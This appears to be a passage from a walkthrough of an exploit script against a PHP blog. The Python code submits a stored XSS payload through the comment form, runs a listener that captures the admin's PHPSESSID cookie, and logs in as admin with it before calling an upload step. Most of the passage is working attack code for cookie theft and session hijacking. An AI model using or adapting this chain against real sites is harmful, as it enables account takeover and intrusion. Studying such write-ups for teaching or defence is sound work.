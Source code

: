 After generating XSS payload, it'll call `send` function:

```python
def send(xss, port):
    url = target + "post_comment.php?id=1"
    data = {"title": "Hello world!", "author": "Lazar", "text": xss, "submit": "Submit"}
    out = r.post(url, data=data)
    if out.status_code == 200:
        print("[+] Payload sent successfully!")
        print("[*] Waiting for victim...")
        cookie = listen(port)
        login(cookie)
```

This function submits a comment with XSS payload by making POST request to `post_comment.php` file.

Next thing is to capture the admin's cookie which we'll do by starting a web server using `listen` function:

```python
def listen(port):
    HOST = ""
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.bind((HOST, port))
        s.listen(1)
        conn, addr = s.accept()
        with conn:
            m = conn.recv(2048)
            print("[+] Capturing cookies...")
            out = re.findall("PHPSESSID\%3D.*HTTP", m.decode("utf-8"))
            out = out[0].replace("PHPSESSID%3D", "").replace("HTTP", "")
            return out.replace("\n", "").replace("\t", "")
```

This function will create simple HTTP server and, using some regex will filter out the PHPSESSID cookie.

Login function will log in as admin, using the previously captured cookie:

```python
def login(cookie):
    url = target + "admin/index.php"
    cookie = "PHPSESSID={}".format(cookie)
    head = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate",
        "Connection": "close",
        "Cookie": cookie,
    }

    a = r.get(url, headers=head)
    if a.text.find("Administration of my Blog"):
        print("[+] Login Successful")
        upload(r, head)
    else:
        print("[-] Login Failed")
        sys.exit()
```
